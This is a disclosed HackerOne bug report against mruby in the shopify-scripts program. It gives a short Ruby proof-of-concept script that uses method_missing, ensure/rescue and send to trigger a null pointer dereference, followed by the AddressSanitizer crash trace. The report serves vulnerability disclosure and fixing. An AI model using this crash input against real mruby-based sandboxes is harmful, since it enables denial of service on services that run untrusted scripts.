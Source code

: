 # Null pointer dereference with send/method_missing

## Report Details
- **Report ID**: 242354
- **URL**: https://hackerone.com/reports/242354
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-06-22T14:38:45.944Z
- **Disclosed**: 2017-06-23T17:12:50.311Z

## Reporter
- **Username**: titanous
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
The following program triggers a null pointer dereference with mruby b200c747:

```ruby
def method_missing(m)
ensure
begin A rescue
break
rescue
end
end

send ''
```

ASAN report:

```text
ASAN:DEADLYSIGNAL
=================================================================
==12116==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x00000051bfaa bp 0x7fff4a650cd0 sp 0x7fff4a648a80 T0)
    #0 0x51bfa9 in mrb_vm_exec /home/vagrant/mruby/src/vm.c:1427:9
    #1 0x510c6a in mrb_vm_run /home/vagrant/mruby/src/vm.c:879:12
    #2 0x541b3f in mrb_top_run /home/vagrant/mruby/src/vm.c:2884:12
    #3 0x6569ff in mrb_load_exec /home/vagrant/mruby/mrbgems/mruby-compiler/core/parse.y:5823:7
    #4 0x657685 in mrb_load_file_cxt /home/vagrant/mruby/mrbgems/mruby-compiler/core/parse.y:5832:10
    #5 0x4f3a61 in main /home/vagrant/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:227:11
    #6 0x7f256672ef44 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x21f44)
    #7 0x41a5c5 in _start (/home/vagrant/mruby/bin/mruby+0x41a5c5)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /home/vagrant/mruby/src/vm.c:1427:9 in mrb_vm_exec
==12116==ABORTING
```

## Attachments
No attachments
